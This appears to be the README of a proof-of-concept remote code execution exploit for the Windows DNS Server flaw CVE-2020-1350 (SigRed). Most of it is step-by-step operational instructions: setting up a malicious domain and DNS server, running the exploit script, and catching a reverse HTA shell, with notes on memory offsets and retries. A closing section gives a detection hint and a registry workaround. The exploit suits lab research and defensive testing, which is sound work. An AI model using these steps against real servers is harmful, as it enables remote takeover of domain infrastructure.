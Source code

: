 # PoC Remote Code Exection Exploit for CVE-2020-1350, SigRed.

by: [chompie](https://twitter.com/chompie1337)

***For research purposes only. Use at your own risk.***

## Lab Environment Setup

An attacker would set up an evil domain whose NS record points to a malicious server (attacker machine)
For demo/testing purposes, just set up a conditional forwarder on the victim machine to forward "evil domain" requests to your attacker machine.

Tools -> DNS
![Alt text](images/forward.png?raw=true "Set up a forwarder")
![Alt text](images/ch0mpie.png?raw=true "Forwarding for ch0mpie.com")

On the Linux attacker machine: (I used a base Ubuntu 20.04.1 VM)

`sudo python3 configure.py -ip IP_ATTACKER -p PORT_REVERSE_SHELL -hp PORT_APACHE_SERVER (default 80)`

This configures the Apache server that the victim will download the reverse HTA shell.

## Running the Exploit

`sudo python3 evildns.py` 

Needs sudo to listen on UDP and TCP ports 53

Then run:

`python3 exploit.py -ip WINDNS_VICTIM_IP -d EVIL_DOMAIN`

Set the listener for the reverse shell:

`python3 reverse_shell/server.py -p PORT_REVERSE_SHELL`

HTA shell is modified version of:
https://github.com/freshness79/HTA-Shell

Note that the shell doesn't notify you when there is an incoming connection so you will have to try to type a command. 

## Supported Versions

This has been tested working on Windows Server 2019, 2016, 2012R2, and 2012 (x64 versions). Offsets for some versions of `dns.exe` and `msvcrt.dll` are located in `offsets.py`. This list is incomplete. If the version you are testing fails to find offsets, you can add the mapping there. 

`dns.exe` offset mapping: (last 12bits of the offset for `dns!RR_Free`, `` dns!`string` ``) : (offset of `dns!RR_Free`, `dns!NsecDnsRecordConvert`, `dns!_imp_exit`)
`msvcrt.dll` offset mapping: (last 12 bits of offset for `msvcrt!exit`): (offset of `msvcrt!exit`, offset of `msvcrt!system`)

***Note: In the case of an offset collision, you will have to make a selection of which set of offsets to choose. The DNS service will restart after about 5 minutes up to two times after a crash. You must restart `evildns.py` after each try. The exploit is stable, so the chance of successful "blind" exploitation is high. ***

## Detecting Exploitation and Workaround Fix

This PoC includes a Grapl rule to detect exploitation of SigRed. To implement a rule for your preferred SIEM, look for invalid child processes of dns.exe.
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters" /v "TcpReceivePacketSize" /t REG_DWORD /d 0xFF00 /f
net stop DNS && net start DNS
```